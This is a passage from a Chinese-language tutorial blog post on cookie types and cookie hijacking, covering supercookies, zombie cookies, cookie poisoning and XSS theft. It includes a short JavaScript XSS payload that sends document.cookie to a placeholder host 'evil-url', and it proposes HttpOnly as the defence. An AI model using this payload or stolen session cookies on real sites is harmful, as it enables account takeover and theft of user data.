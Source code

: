 设置了这个属性的Cookie在javascript中无法获取到，只会在网络传输过程中带到服务器。

### 5) Third-Party Cookie

第三方Cookie的使用场景通常是iframe，例如`www.a.com`嵌入了一个`www.ad.com`的广告iframe，那么`www.ad.com`设置的cookie属于不属于`www.a.com`，被称作`第三方Cookie`。

### 6) Supercookie

Cookie会从属于一个域名，例如`www.a.com`，或者属于一个子域，例如`b.a.com`。但是如果Cookie被声明为属于`.com`会发生什么？这个Cookie会在任何`.com`域名生效。这有很大的安全性问题。这种Cookie被称作`Supercookie`。

浏览器做出了限制，不允许设置顶级域名Cookie(例如.com，.net)和pubic suffix cookie(例如.co.uk，.com.cn)。

现代主流浏览器都很好的处理了Supercookie问题，但是如果有些第三方浏览器使用的顶级域名和public suffix列表有问题，那么就可以针对Supercookie进行攻击。

### 7) Zombie Cookie/Evercookie

僵尸Cookie是指当用户通过浏览器的设置清除Cookie后可以自动重新创建的Cookie。原理是通过使用多重技术记录同样的内容(例如flash，silverlight)，当Cookie被删除时，从其他存储中恢复。

Evercookie是实现僵尸Cookie的主要技术手段。

## 五、Cookie劫持

包含了一些敏感消息：用户名，电脑名，使用的浏览器和曾经访问的网站。用户不希望这些内容泄漏出去，尤其是当其中还包含有私人信息的时候。

XSS（Cross site scripting，跨站脚本）是最基本的Cookie窃取方式。当攻击者通过XSS获取到用户Cookie后，攻击者将利用Cookie通过合法手段进入用户账号，浏览大部分用户资源。下图是Cookie劫持的示意图：

![Cookie劫持示意图][1]

另外，攻击者也能制造Cookie投毒。一般认为，Cookie在储存和传回服务器期间没有被修改过，而攻击者会在Cookie送回服务器之前对其进行修改，达到自己的目的。例如，在一个购物网站的Cookie中包含了顾客应付的款项，攻击者将该值改小，达到少付款的目的。这就是Cookie投毒。

### 1) 利用XSS漏洞获取Cookie

**攻击方法**

一旦站点中存在可利用的XSS漏洞，攻击者可直接利用注入的js脚本获取Cookie，进而通过异步请求把标识Session id的Cookie上报给攻击者。
```js
var img = document.createElement('img');
img.src = 'http://evil-url?c=' + encodeURIComponent(document.cookie);
document.getElementsByTagName('body')[0].appendChild(img);
```

**防御方法**

根据上面HttpOnly Cookie的介绍，一旦一个Cookie被设置为HttpOnly，js脚本就无法再获取到，而网络传输时依然会带上。也就是说依然可以依靠这个Cookie进行Session维持，但客户端js对其不可见。那么即使存在XSS漏洞也无法简单的利用其进行Session劫持攻击了。

上面说的防御方法无法利用XSS进行简单的攻击，但可以通过XSS结合其他漏洞获取Cookie。比如XSS结合phpinfo页面、HTTP Response Splitting。

### 2) XSS结合phpinfo页面

**攻击方法**


  [1]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000000_post_session_hijacking.webp "Cookie劫持示意图"
  [2]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000100_phpinfo.webp "phpinfo页面"
  [3]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000200_Wireshark.webp "Wireshark抓取Cookie信息"
  [4]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000300_加载Cookie.webp "Firefox中粘贴从Wireshark抓取的Cookie值"
  [5]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000400_成功登陆.webp "利用Cookie登录他人百度网盘"
